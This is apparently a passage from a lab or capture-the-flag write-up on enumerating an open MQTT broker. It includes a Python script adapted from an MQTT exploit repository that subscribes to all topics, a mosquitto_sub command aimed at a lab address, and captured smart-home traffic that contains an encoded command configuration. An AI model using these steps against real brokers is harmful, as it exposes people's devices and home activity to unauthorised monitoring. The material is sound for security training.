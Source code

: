 ```r
|     $SYS/broker/load/messages/received/5min: 89.50
|     $SYS/broker/messages/stored: 52
|     $SYS/broker/load/messages/sent/1min: 87.59
|     $SYS/broker/publish/bytes/received: 99966
|     storage/thermostat: {"id":4225093720074778126,"temperature":24.370138}
|     patio/lights: {"id":13113594345698905428,"color":"GREEN","status":"ON"}
|_    $SYS/broker/load/connections/15min: 0.07
```

We now see a whole lot more information and message we are subscribed to.

Let's install ``mosquitto mositto-clients`` or you can use below python code 
```python
#This is a modified version of https://github.com/Warflop/IOT-MQTT-Exploit/blob/master/mqtt.py
import paho.mqtt.client as mqtt
import time
import os

HOST = "127.0.0.1"
PORT = 1883

def on_connect(client, userdata, flags, rc):
	client.subscribe('#', qos=1)
	client.subscribe('$SYS/#')

def on_message(client, userdata, message):
	print('Topic: %s | QOS: %s  | Message: %s' % (message.topic, message.qos, message.payload))

def main():
	client = mqtt.Client()
	client.on_connect = on_connect
	client.on_message = on_message
	client.connect(HOST, PORT)
	client.loop_start()
	#time.sleep(10)
	#client.loop_stop()

if __name__ == "__main__":
	main()

```

After installation, we run the mosquito client and subscribe to all topics
```r
mosquitto_sub -h 10.10.211.128 -t "#" -v
storage/thermostat {"id":4424087202401419041,"temperature":24.315678}
yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
patio/lights {"id":6367359151460270272,"color":"BLUE","status":"OFF"}
kitchen/toaster {"id":3673559716775066364,"in_use":false,"temperature":159.94699,"toast_time":200}
frontdeck/camera {"id":3469777500978391270,"yaxis":-131.96877,"xaxis":78.39072,"zoom":3.052149,"movement":false}
livingroom/speaker {"id":6346922298882139147,"gain":43}
storage/thermostat {"id":10779462243664664036,"temperature":24.486012}
patio/lights {"id":13439815576938688600,"color":"GREEN","status":"OFF"}
storage/thermostat {"id":12352118950085859924,"temperature":24.03314}
livingroom/speaker {"id":7436510398294813606,"gain":69}
kitchen/toaster {"id":6365751887703423581,"in_use":true,"temperature":157.1976,"toast_time":217}
storage/thermostat {"id":6732570971239673425,"temperature":23.903341}
patio/lights {"id":15075058155825401339,"color":"WHITE","status":"ON"}
frontdeck/camera {"id":9765936963053306852,"yaxis":44.41536,"xaxis":-80.401596,"zoom":2.1879764,"movement":false}
livingroom/speaker {"id":15841450779018084555,"gain":69}
storage/thermostat {"id":6855645772535819253,"temperature":24.210281}
```